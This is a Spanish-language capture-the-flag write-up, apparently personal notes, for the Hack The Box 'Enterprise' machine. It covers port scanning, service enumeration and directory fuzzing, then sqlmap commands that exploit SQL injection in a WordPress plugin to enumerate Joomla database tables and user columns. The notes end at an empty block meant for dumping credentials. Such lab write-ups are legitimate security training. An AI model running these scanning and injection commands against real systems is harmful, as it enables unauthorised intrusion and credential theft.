 https://app.hackthebox.com/machines/Enterprise
# Fase de reconocimiento

## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.10.61
```
![[Pasted image 20250217154115.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,443,8080,32812 10.10.10.61
```
![[Pasted image 20250217154318.png]]
## Enumeracion
Encontramos un wordpress y econtramos un usuario valido, ademas de wp-login.php activo 

Ver el certificado ssl
```
openssl s_client -connect 10.10.10.61:443
```
Encontramos un robots.txt y un joomla

### Fuzz
```
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://10.10.10.61/FUZZ
```
![[Pasted image 20250217160447.png]]
![[Pasted image 20250217160455.png]]
![[Pasted image 20250217160913.png]]
# Fase de ataque
## SQLI
Como podemos ver tenemos un plugin lcars que espera un parametro para hacer una query
![[Pasted image 20250217161424.png]]
### Sqlmap 
```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' --dbs
```
El parametrol QUERY es vulnerable a SQLI
![[Pasted image 20250217162437.png]]
Listar tablas joomla
```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb --tables
```
Listar columnas
```
sqlmap -u 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1' -D joomladb -T edz2g_users --columns
```
![[Pasted image 20250217162825.png]]
Listar datos de usuario y contraseña
```
```